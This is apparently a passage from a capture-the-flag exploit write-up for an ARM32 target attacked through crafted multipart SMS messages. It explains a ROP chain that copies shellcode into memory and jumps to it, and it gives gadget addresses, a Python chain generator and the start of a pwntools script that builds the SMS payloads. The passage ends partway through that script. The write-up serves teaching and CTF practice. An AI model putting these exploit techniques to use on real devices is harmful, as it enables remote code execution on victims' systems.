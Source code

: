 ### Second Payload
At this point, we have a page in the memory space with a fixed address where we can write and jump into.

We need some reliable way to copy a shellcode into this memory and jump to it.
I tried for several hours to build a call to memcpy but I was not able to put a stack address into `r1` register. (`r1` is the source register because of the calling convention of amr32).

Thankfully marcof came out with the idea of building a ropchain that write the shellcode into memory using registers.

This is the type of gadget that you need:

```python
# 0x00013568 : str r4, [r3] ; mov r0, r1 ; pop {r4, pc}
storer4r3 = 0x00013568
```

You put 4 bytes that you want to write in `r4` and the address where to write in `r3` and keep doing that until the whole shellcode is written.

The challenge here was to have a chain not too long, because we were close to env variable on the stack, overwriting env was ending in a crash because used by some time function.

After several iterations we end up with this script to generate such chain:
```python
ropchain_second += p32(r4pop+1) #r4
ropchain_second += shellcode[0:4] #r4
for x in range(0, len(shellcode), 4):
    spiece_next = shellcode[x+4:x+8]
    if x >= len(shellcode)-4:
        spiece_next = p32(address+1) # These put jumping address in r4
        print "done"
    ropchain_second += p32(popr3+1) #pc
    ropchain_second += p32(address+x) #r3 value
    ropchain_second += p32(storer4r3+1) #pc
    ropchain_second += spiece_next #r4
#add jump to address
ropchain_second += p32(blxr4+1)
```

The other point to keep the chain short was keeping the payload short. We basically used this [`shellcode`]({{"http://shell-storm.org/shellcode/files/shellcode-754.php) with small fixes:
 - we removed instruction that jumps in thumb mode (we can do this directly)
 - we changed "/system/bin/sh" in "/bin/sh"
 - we reduce bytes for the port.

This is the final script that produces 5 SMSes. The last one is the one which triggers the bug so it needs to be the last one.

```python

from pwn import *

def encode_part(ref_num, data, CSMS=0x17, max_part=3):
    assert max_part <= 3
    header = "\x05\x00\x03" + chr(CSMS) + chr(max_part) + chr(ref_num)
    return header+data



c = "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwa"

#r3 load
# 0x0001275e : ldr r3, [r5, #0x20] ; cmp r3, r4 ; bne #0x12760 ; ldrd r4, r5, [sp] ; add sp, #8 ; pop {r6, pc}
r3load = 0x0001275e
```